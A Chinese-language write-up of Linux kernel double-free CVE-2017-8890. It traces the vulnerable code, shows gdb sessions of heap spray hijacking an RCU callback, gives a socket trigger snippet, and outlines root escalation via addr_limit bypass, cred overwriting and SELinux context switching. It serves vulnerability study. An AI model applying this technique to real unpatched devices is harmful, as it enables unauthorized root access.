

CVE-2017-8890
前言
影响版本
理论上Linux Kernel 2.5.69~Linux Kernel 4.11
测试内核
Linux version 3.4.67-gd3ffcc7-dirty (ubuntu@ubuntu) (gcc version 4.6.x-google 20120106 (prerelease) (GCC) ) #4 PREEMPT Mon Sep 11 09:06:06 CST 2017(32位)
PS：因为没找到合适的64位goldfish源码，所以直接使用的32位进行调试，64位原理是一致的
漏洞描述
该漏洞属于一个Doubel Free漏洞,Linux内核中net/ipv4/inet_connection_sock.c中的inet_csk_clone_lock函数中存在浅拷贝问题,当我们调用accept函数时,会调用底层函数inet_csk_clone函数。若有客户端连接到该服务端,会用到accept函数中参数1和返回值,底层函数inet_csk_clone会将accept函数的参数1(parent_sockfd)所对应的sk变量拷贝到accept函数返回值(child_sockfd)所对应的sk变量中,但并没有清空child_sockfd所对应的sk->mc_list的值,当使用close函数对这两个句柄进行关闭时,会对sk结构中的iml进行两次释放,通过堆喷射可执行任意代码。
Google修复链接
https://android.googlesource.com/kernel/goldfish/+/88c573e1342ea5734088052879987c0e8f9bf10c%5E%21/#F0
漏洞复现
PC is at 0xeeeeeeea
LR is at __rcu_process_callbacks+0x8c/0xa4
pc : [<eeeeeeea>] lr : [<c0069f78>] psr: a0000133
sp : c611de88 ip : c6d2dd98 fp : 0000000a
r10: 00000009 r9 : d400e810 r8 : c9635ec8
r7 : 00000101 r6 : b6efb008 r5 : 00000fff r4 : c6d2dd98
r3 : eeeeeeee r2 : 00000000 r1 : 00000101 r0 : b6efb008
漏洞分析
要点
- 对象何时何处被分配
- 内存分配链：sys_setsockopt( ) -> sock_common_setsockopt( ) -> tcp_setsockopt( ) -> ip_setsockopt( ) -> do_ip_setsockopt( ) -> ip_mc_join_group( ) -> sock_kmalloc( ) -> […]
- 对象何时何处存在浅拷贝
- 浅拷贝链：tcp_v4_syn_recv_sock -> tcp_create_openreq_child -> inet_csk_clone_lock( ) -> sk_clone_lock( ) -> sock_copy( ) -> […]
- 对象何时何处被二次使用
- 释放调用链:sys_close( ) -> filp_close( ) -> fput( ) -> __fput( ) -> sock_close( ) -> sock_release( ) -> inet_release( ) -> ip_mc_drop_socket( ) -> […]
静态分析
首先我们看android对该漏洞做的补丁，只是简单的对newsk结构体指针指向的mc_list成员做了下初始化，并没有多余的修补代码，那么我们详细看下newsk是怎么来的，可以看到来源于sk_clone_lock( )函数的返回值，我们直接到sk_clone_lock函数中看看
浅拷贝链：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28
| struct sock *inet_csk_clone_lock(const struct sock *sk, const struct request_sock *req, const gfp_t priority) { struct sock *newsk = sk_clone_lock(sk, priority); if (newsk) { struct inet_connection_sock *newicsk = inet_csk(newsk); newsk->sk_state = TCP_SYN_RECV; newicsk->icsk_bind_hash = NULL; inet_sk(newsk)->inet_dport = inet_rsk(req)->ir_rmt_port; inet_sk(newsk)->inet_num = inet_rsk(req)->ir_num; inet_sk(newsk)->inet_sport = htons(inet_rsk(req)->ir_num); newsk->sk_write_space = sk_stream_write_space; sock_reset_flag(newsk, SOCK_RCU_FREE); inet_sk(newsk)->mc_list = NULL; newsk->sk_mark = inet_rsk(req)->ir_mark; atomic64_set(&newsk->sk_cookie, atomic64_read(&inet_rsk(req)->ir_cookie)); newicsk->icsk_retransmits = 0; newicsk->icsk_backoff = 0; newicsk->icsk_probes_out = 0; memset(&newicsk->icsk_accept_queue, 0, sizeof(newicsk->icsk_accept_queue)); security_inet_csk_clone(newsk, req); } return newsk; }
|
根据内核源码注释可知sk_clone_lock用于拷贝一个socket，这里先申请一块内存，然后把传入的sk数据拷贝到新申请的内存中，并对新的sk结构体做一些初始化
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39
| * sk_clone_lock - clone a socket, and lock its clone * @sk: the socket to clone * @priority: for allocation (%GFP_KERNEL, %GFP_ATOMIC, etc) * * Caller must unlock socket even in error path (bh_unlock_sock(newsk)) */ struct sock *sk_clone_lock(const struct sock *sk, const gfp_t priority) { struct sock *newsk; bool is_charged = true; newsk = sk_prot_alloc(sk->sk_prot, priority, sk->sk_family); if (newsk != NULL) { struct sk_filter *filter; sock_copy(newsk, sk); get_net(sock_net(newsk)); [...] skb_queue_head_init(&newsk->sk_error_queue); filter = rcu_dereference_protected(newsk->sk_filter, 1); if (filter != NULL) [...] if (unlikely(!is_charged || xfrm_sk_clone_policy(newsk))) { [...] goto out; } newsk->sk_err = 0; newsk->sk_priority = 0; * Before updating sk_refcnt, we must commit prior changes to memory * (Documentation/RCU/rculist_nulls.txt for details) */ smp_wmb(); atomic_set(&newsk->sk_refcnt, 2); [...] } out: return newsk; }
|
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19
| * Copy all fields from osk to nsk but nsk->sk_refcnt must not change yet, * even temporarly, because of RCU lookups. sk_node should also be left as is. * We must not copy fields between sk_dontcopy_begin and sk_dontcopy_end */ static void sock_copy(struct sock *nsk, const struct sock *osk) { #ifdef CONFIG_SECURITY_NETWORK void *sptr = nsk->sk_security; #endif memcpy(nsk, osk, offsetof(struct sock, sk_dontcopy_begin)); memcpy(&nsk->sk_dontcopy_end, &osk->sk_dontcopy_end, osk->sk_prot->obj_size - offsetof(struct sock, sk_dontcopy_end)); #ifdef CONFIG_SECURITY_NETWORK nsk->sk_security = sptr; security_sk_clone(osk, nsk); #endif }
|
上面标记拷贝处就是漏洞的成因，因为内核中直接通过memcpy克隆了一个socket，并且未对克隆后的socket中的mc_list结构体变量做初始化，导致了浅拷贝问题，也就是两个socket中存在一个变量同时指向同一块mc_list内存，如果其中一个socket被关闭那么该内存就会被释放，而另一个socket却还残留着这块内存的引用指针，这样就导致uaf漏洞或者doublefree漏洞。
那么该对象是何时何处被申请的呢?
内存分配链：sys_setsockopt() -> sock_common_setsockopt() -> tcp_setsockopt() -> ip_setsockopt() -> do_ip_setsockopt() -> ip_mc_join_group( ) -> sock_kmalloc( ) -> […]
1 2 3 4 5 6 7 8 9 10 11
| int ip_setsockopt(struct sock *sk, int level, int optname, char __user *optval, unsigned int optlen){ int err; if (level != SOL_IP) return -ENOPROTOOPT; err = do_ip_setsockopt(sk, level, optname, optval, optlen); #ifdef CONFIG_NETFILTER [……] #endif return err; }EXPORT_SYMBOL(ip_setsockopt);
|
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39
| static int do_ip_setsockopt(struct sock *sk, int level, int optname, char __user *optval, unsigned int optlen){ struct inet_sock *inet = inet_sk(sk); int val = 0, err; switch (optname) { case IP_PKTINFO: case IP_RECVTTL: case IP_RECVOPTS: […] case MCAST_JOIN_GROUP: case MCAST_LEAVE_GROUP: { struct group_req greq; struct sockaddr_in *psin; struct ip_mreqn mreq; if (optlen < sizeof(struct group_req)) goto e_inval; err = -EFAULT; if (copy_from_user(&greq, optval, sizeof(greq))) break; psin = (struct sockaddr_in *)&greq.gr_group; if (psin->sin_family != AF_INET) goto e_inval; memset(&mreq, 0, sizeof(mreq)); mreq.imr_multiaddr = psin->sin_addr; mreq.imr_ifindex = greq.gr_interface; if (optname == MCAST_JOIN_GROUP) err = ip_mc_join_group(sk, &mreq); else err = ip_mc_leave_group(sk, &mreq); break; } […] release_sock(sk); return err; e_inval: release_sock(sk); return -EINVAL; }
|
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22
| int ip_mc_join_group(struct sock *sk , struct ip_mreqn *imr) { int err; __be32 addr = imr->imr_multiaddr.s_addr; [……] if (count >= sysctl_igmp_max_memberships) goto done; iml = sock_kmalloc(sk, sizeof(*iml), GFP_KERNEL); if (iml == NULL) goto done; memcpy(&iml->multi, imr, sizeof(*imr)); iml->next_rcu = inet->mc_list; iml->sflist = NULL; iml->sfmode = MCAST_EXCLUDE; rcu_assign_pointer(inet->mc_list, iml); ip_mc_inc_group(in_dev, addr); err = 0; done: rtnl_unlock(); return err; } EXPORT_SYMBOL(ip_mc_join_group);
|
漏洞利用
对象何时何处被二次使用?
释放调用链:sys_close –> filp_close –> fput –> __fput –> sock_close –> sock_release –> inet_release –> ip_mc_drop_socket
动态调试
可以通过编译内核，然后使用模拟器 + gdb进行动态调试
首先在ip_mc_join_group()函数处下断点,运行poc，程序会在ip_mc_join_group函数处断下,单步调试到执行完sock_kmalloc函数此时应该属于第一个socket创建时申请ip_mc_socklist结构体内存，我们记录申请的内存首地址0xc6d2dd80，接着单步运行，直到该函数结尾处记录其结构体中的数据
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40
| (gdb) break ip_mc_join_group Breakpoint 1 at 0xc02ddd8c: file net/ipv4/igmp.c, line 1781. (gdb) c Continuing. Breakpoint 1, ip_mc_join_group (sk=0xd3865240, imr=0xc611de08) at net/ipv4/igmp.c:1781 1781 { (gdb) n 1783 __be32 addr = imr->imr_multiaddr.s_addr; 1781 { [……] 1815 iml = sock_kmalloc(sk, sizeof(*iml), GFP_KERNEL); 1816 if (iml == NULL) 1819 memcpy(&iml->multi, imr, sizeof(*imr)); 1820 iml->next_rcu = inet->mc_list; 1821 iml->sflist = NULL; 1822 iml->sfmode = MCAST_EXCLUDE; 1820 iml->next_rcu = inet->mc_list; 1823 rcu_assign_pointer(inet->mc_list, iml); (gdb) p iml $1 = (struct ip_mc_socklist *) 0xc6d2dd80 (gdb) p *iml $2 = { next_rcu = 0x0, multi = { imr_multiaddr = { s_addr = 16843240 }, imr_address = { s_addr = 0 }, imr_ifindex = 2 }, sfmode = 0, sflist = 0x0, rcu = { next = 0x0, func = 0x0 } }
|
紧接着在ip_mc_drop_socket()函数处下断点,让程序继续运行，当poc程序第一次调用关闭socket函数close时，程序会在ip_mc_drop_socket函数处断下，此时我们通过p * iml指令查看一下iml成员中的值，可以看到和我们最开始的一致，然后让程序再次跑起来
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30
| (gdb) break ip_mc_drop_socket Breakpoint 2 at 0xc02de8c8: file net/ipv4/igmp.c, line 2287. (gdb) c Continuing. Breakpoint 2, ip_mc_drop_socket (sk=0xd3864940) at net/ipv4/igmp.c:2287 2287 { (gdb) n 2292 if (inet->mc_list == NULL) 2295 rtnl_lock(); 2305 atomic_sub(sizeof(*iml), &sk->sk_omem_alloc); 2296 while ((iml = rtnl_dereference(inet->mc_list)) != NULL) { (gdb) p *iml $3 = { next_rcu = 0x0, multi = { imr_multiaddr = { s_addr = 16843240 }, imr_address = { s_addr = 0 }, imr_ifindex = 2 }, sfmode = 0, sflist = 0x0, rcu = { next = 0x0, func = 0x0 } }
|
第二次在ip_mc_drop_socket函数断下的时候，说明程序执行到了第二次调用释放socket函数的位置，此时再次查看一下该结构体内存中的数据，可以看到因为第一次释放套接字的时候已经把最开始申请的内存释放了,并且已经成功喷射成了我们伪造的数据，0xc6d2dd80已经指向的是我们喷射的数据，因为0xb6efb000是我们在Exp中使用mmap映射出来的地址，所以sflist指针指向的是我们用户态随意控制的数据
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31
| (gdb) c Continuing. Breakpoint 2, ip_mc_drop_socket (sk=0xd3865240) at net/ipv4/igmp.c:2287 2287 { (gdb) n 2292 if (inet->mc_list == NULL) 2295 rtnl_lock(); 2305 atomic_sub(sizeof(*iml), &sk->sk_omem_alloc); 2296 while ((iml = rtnl_dereference(inet->mc_list)) != NULL) { 2299 inet->mc_list = iml->next_rcu; (gdb) p iml $4 = (struct ip_mc_socklist *) 0xc6d2dd80 (gdb) p *iml $5 = { next_rcu = 0x0, multi = { imr_multiaddr = { s_addr = 0 }, imr_address = { s_addr = 0 }, imr_ifindex = 123456 }, sfmode = 0, sflist = 0xb6efb000, rcu = { next = 0x0, func = 0x0 } }
|
查看一下sflist指针指向的内存数据，然后对照下内核源码中的该结构体，0xeeeeeeee正好就是函数指针，并且在ip_mc_leave_src函数中存在一个kfree_rcu函数可以把sflist指向的psf变量中的callback_head链入到rcu回调函数链表中，我们只要精心构造一下喷射数据就可以成功执行到该kfree_rcu处
(gdb) x/10x 0xb6efb000
0xb6efb000: 0x00000000 0x00000000 0x00000000 0xeeeeeeee
0xb6efb010: 0x00000000 0x00000000 0x00000000 0x00000000
0xb6efb020: 0x00000000 0x00000000
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31
| ip_mc_leave_src (sk=0xd3865240, iml=0xc6d2dd80, in_dev=0x0) at net/ipv4/igmp.c:1834 1834 { (gdb) s 1835 struct ip_sf_socklist *psf = rtnl_dereference(iml->sflist); (gdb) s 1834 { 1838 if (psf == NULL) { 1844 iml->sfmode, psf->sl_count, psf->sl_addr, 0); 1843 err = ip_mc_del_src(in_dev, &iml->multi.imr_multiaddr.s_addr, 1845 RCU_INIT_POINTER(iml->sflist, NULL); 1847 atomic_sub(IP_SFLSIZE(psf->sl_max), &sk->sk_omem_alloc); 1843 err = ip_mc_del_src(in_dev, &iml->multi.imr_multiaddr.s_addr, 1847 atomic_sub(IP_SFLSIZE(psf->sl_max), &sk->sk_omem_alloc); (gdb) p psf $6 = (struct ip_sf_socklist *) 0xb6efb000 (gdb) p *psf $7 = { sl_max = 0, sl_count = 0, rcu = { next = 0x0, func = 0xeeeeeeee }, sl_addr = 0xb6efb010 } 1848 kfree_rcu(psf, rcu); (gdb) x/10x 0xb6efb000 0xb6efb000: 0x00000000 0x00000000 0x00000000 0x00000008 0xb6efb010: 0x00000000 0x00000000 0x00000000 0x00000000 0xb6efb020: 0x00000000 0x00000000
|
注意:因为kfree_rcu函数会把我们设置的rcu->func的值修改为别的数据，所以我们调试的时候手动把用户态地址0xb6efb00c中的值修改回0xeeeeeeee(写Exp的时候可以开一个线程循环对其修改即可)
当设置好ruc回调函数后等着内核调用就好了,这样就顺利的控制了内核态的PC指针,并且参数1是可控。
1 2 3 4 5 6 7 8 9 10 11 12 13 14
| static inline bool __rcu_reclaim(char *rn, struct rcu_head *head) { unsigned long offset = (unsigned long)head->func; if (__is_kfree_rcu_offset(offset)) { RCU_TRACE(trace_rcu_invoke_kfree_callback(rn, head, offset)); kfree((void *)head - offset); return 1; } else { RCU_TRACE(trace_rcu_invoke_callback(rn, head)); head->func(head); return 0; } }
|
需要喷射的结构体
1 2 3 4 5 6 7
| struct ip_mc_socklist { struct ip_mc_socklist __rcu *next_rcu; struct ip_mreqn multi; unsigned int sfmode; struct ip_sf_socklist __rcu *sflist; struct rcu_head rcu; };
|
用户态伪造结构体
1 2 3 4 5 6
| struct ip_sf_socklist { unsigned int sl_max; unsigned int sl_count; struct rcu_head *rcu; __be32 sl_addr[0]; };
|
Root提权
现在我们已经能够成功劫持内核执行流程了,接下来要做的就是如何劫持内核执行来达到内核提权的效果。
1.修改exp进程的addr_limit字段,实现内核任意访问
虽然成功劫持了内核的执行,但是离我们的目标还差一步,因为现在的内核默认是开启了PXN(Privileged execute-never)保护的,所以我们不能直接让内核去执行我们用户态的权限提升shellcode,我们需要实现对内核进行任意读写,通过任意读写来完成权限提升。
首先我们来看一个结构体
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15
| struct thread_info { struct pcb_struct pcb; struct task_struct *task; unsigned int flags; unsigned int ieee_state; struct exec_domain *exec_domain; mm_segment_t addr_limit; unsigned cpu; int preempt_count; unsigned int status; int bpt_nsaved; unsigned long bpt_addr[2]; unsigned int bpt_insn[2]; struct restart_block restart_block; };
|
系统中的每一个线程都会分配自己的堆栈,其底部存在一个thread_info结构体,该结构体记录着当前线程的一些属性,结构体中的addr_limit元素表示当前线程可访问的地址空间,就是因为该元素所以正常情况下我们用户态程序不能访问内核态内存,但是如果我们把该字段的内容改为-1(0xffffffffffffffff),那么对应的线程就能访问任意内核地址了。
但是我们如何去修改addr_limit呢?
泄漏线程sp,计算thread_info地址,索引修改addr_limit
1 2 3 4
| static inline struct thread_info *current_thread_info(void) { return (struct thread_info *)(current_stack_pointer & ~(THREAD_SIZE - 1)); }
|
利用内核中本来就存在的对addr_limit值进行修改的函数,不过一般这类函数都是成对出现,先修改为新值,再恢复为原始值,我们需要想办法绕过恢复操作(例:kernel_sock_ioctl)
1 2 3 4 5 6 7 8 9
| int kernel_sock_ioctl(struct socket *sock, int cmd, unsigned long arg) { mm_segment_t oldfs = get_fs(); int err; set_fs(KERNEL_DS); ---- err = sock->ops->ioctl(sock, cmd, arg); | set_fs(oldfs); ---> return err; }
|
在内核函数中存在一个kernel_sock_ioctl函数,该函数存在一个函数指针调用,而这个函数指针又正由参数1所控制,我们就可以在执行完set_fs(KERNEL_DS)函数完后,如果参数1可控,通过控制的函数指针,直接跳转到函数末尾处,这样就绕过了set_fs(oldfs)恢复addr_limit的操作。
这里需要注意的是,我们不能在最开始通过触发漏洞去劫持内核执行流程时调用kernel_sock_ioctl函数修改addr_limit,因为这样调用修改的不是我们exp线程的thread_info中的addr_info,只有exp线程调用kernel_sock_ioctl函数修改的才是exp线程的thread_info中的addr_info成员,但是kernel_sock_ioctl函数用户态程序是不能直接调用的,那么如何实现让用户态调用该函数呢?
我们知道在linux内核中有许多file_operations结构体类型的全局符号,这类结构体有个特点就是其成员是一组函数指针,每个打开的文件(在内部由一个file结构体表示)都会和一组函数指针关联(通过包含指向一个file_operation结构的f_op字段),这组函数指针用来完成一些用户层函数的功能,用户层可以调用对应的用户层API来触发这些函数指针,我们可以查找一个file_operation结构体变量,把它的某个函数指针指向kernel_sock_ioctl函数,再去调用这个函数指针对应的应用层API，这样的话实际调用的其实是kernel_sock_ioctl函数。合适的函数指针需要满足以下条件:
- 该函数指针可以被用户层触发调用。
- 函数指针的参数1可以被我们伪造成想要的结构体。
查找内核源码发现全局符号ptmx_fops中的check_flags函数指针比较合适。
我们可以通过/proc/kallsyms文件来获取我们需要的符号地址(ptmx_fops->check_flags,kernel_sock_ioctl),同时还需要在内核中找到一条能完成任意地址写的ROP链,常用的查找工具有ROPgadget,在触发漏洞控制内核执行时调用这条ROP链,把kernel_sock_ioctl函数地址写入到ptmx_fops->check_flags函数指针中,修改完毕后让exp线程去打开/dev/ptmx文件,使用fcntl(fd, F_SETFL, jopdata)去触发kernel_sock_ioctl函数,jopdata为我们控制的参数1,可以使用mmap来映射出一片地址,伪造一个socket结构体来控制内核函数kernel_sock_ioctl的跳转位置。这样就轻松修改了exp的addr_limit元素,exp进程就能轻易地对内核进行任意访问了。
2.封装pipe函数,实现内核任意读写,获取exp进程的task_struct结构体,通过task_struct结构体获取该进程的cred结构体
因为exp进程已经可以对内核态任意访问,我们就可以直接在用户态使用pipe对内核进行任意读写,现在我们需要找到exp进程的task_struct结构体,然后根据task_struct结构体去查找cred结构体。
查找task_struct结构体有两种方法。
- 在线程的thread_info中就存在task_struct结构体,可以通过泄漏sp,然后计算出当前线程的task_struct,不过不适合当前这个漏洞
- 通过inti进程的task_struct结构体的特征码,暴力搜索。根据/proc/iomem文件获取内存分布,算出init进程task_struct可能存在的区间,找到init进程的task_struct后通过结构体内部链表进行遍历exp进程的task_struct结构体
3.修改cred结构体中的关键字段(uid,gid….)切换SELinux context并关闭SELinux,实现权限提升
通过找到exp的task_struct索引cred结构体,对cred结构体中的几个关键的字段进行修改:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38
| struct cred { atomic_t usage; #ifdef CONFIG_DEBUG_CREDENTIALS atomic_t subscribers; void *put_addr; unsigned magic; #define CRED_MAGIC 0x43736564 #define CRED_MAGIC_DEAD 0x44656144 #endif kuid_t uid; kgid_t gid; kuid_t suid; kgid_t sgid; kuid_t euid; kgid_t egid; kuid_t fsuid; kgid_t fsgid; unsigned securebits; kernel_cap_t cap_inheritable; kernel_cap_t cap_permitted; kernel_cap_t cap_effective; kernel_cap_t cap_bset; #ifdef CONFIG_KEYS unsigned char jit_keyring; * keys to */ struct key __rcu *session_keyring; struct key *process_keyring; struct key *thread_keyring; struct key *request_key_auth; #endif #ifdef CONFIG_SECURITY void *security; #endif struct user_struct *user; struct user_namespace *user_ns; struct group_info *group_info; struct rcu_head rcu; };
|
进程uid,gid相关的字段改为0(root对应的uid,gid)
1 2 3 4 5 6 7 8
| cred.uid = 0; cred.gid = 0; cred.suid = 0; cred.sgid = 0; cred.euid = 0; cred.egid = 0; cred.fsuid = 0; cred.fsgid = 0;
|
进程capability相关的字段改为0xffffffffffffffff(表示全部拥有),每个进程有三个和能力相关的位图:inheritable(I),permitted(P),effective(E)可以通过cat /proc/PID/status来查看进程所拥有的能力。
1 2 3 4 5 6 7 8
| cred.cap_inheritable.cap[0] = -1; cred.cap_inheritable.cap[1] = -1; cred.cap_permitted.cap[0] = -1; cred.cap_permitted.cap[1] = -1; cred.cap_effective.cap[0] = -1; cred.cap_effective.cap[1] = -1; cred.cap_bset.cap[0] = -1; cred.cap_bset.cap[1] = -1;
|
cred结构体中的security成员指向task_security_struct结构体,编译条件CONFIG_SECURITY,提权时需要把该结构体中的osid,sid修改为init进程对应的soid,sid这样的话exp进程的selinux context就切换成了init对应的selinux context了
1 2 3 4 5 6 7 8
| struct task_security_struct { u32 osid; u32 sid; u32 exec_sid; u32 create_sid; u32 keycreate_sid; u32 sockcreate_sid; };
|

触发模型:
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16
| setsockopt(parent_socket, 0x0, MCAST_JOIN_GROUP, &group, sizeof(group)); if (listen(parent_socket, 2)){ perror("error: \n"); exit(1); } if(1){ socklen_t len = 0; child_sockfd = accept(parent_socket,(sockaddr*)&client,&len); if (child_sockfd == -1){ perror("error: \n"); return 0; } close(child_sockfd); } sleep(4); close(parent_socket);
|
总结
1.在使用GDB调试时使用set print pretty on选项,查看结构体的时候会更加的直观。
2.官方说漏洞属于DoubleFree漏洞,但是我们利用时使用的却是UAF常用利用方法。
- 通过喷射占位结构体,然后使用喷射结构体中的某个函数指针对执行流进行控制
- 把Double Free漏洞转换为Use After Free漏洞
3.在文中有些地方表述的还不是太清楚,还需要通过多写文章进行练习表达能力